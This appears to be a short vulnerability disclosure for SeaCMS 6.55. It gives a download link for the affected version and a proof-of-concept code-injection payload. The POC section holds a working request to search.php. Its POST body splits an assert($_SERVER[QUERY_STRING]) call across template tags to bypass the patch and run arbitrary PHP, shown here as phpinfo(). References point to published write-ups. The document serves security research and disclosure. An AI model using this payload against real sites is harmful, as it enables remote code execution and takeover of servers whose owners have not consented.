## Affected Version 6.55

链接:https://pan.baidu.com/s/1UmbsQjQ4o4JFtK1MLHtf3g  
密码:k4x1

## POC

	http://192.168.0.6/seacms655/search.php?phpinfo(); 
	post:
	searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*



## References

[海洋CMS（SEACMS）新版本V6.55补丁仍可被绕过执行任意代码](http://www.freebuf.com/vuls/150303.html)

[seacms 6.55 代码注入漏洞](https://github.com/SukaraLin/php_code_audit_project/blob/master/seacms/seacms%206.55%20%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md)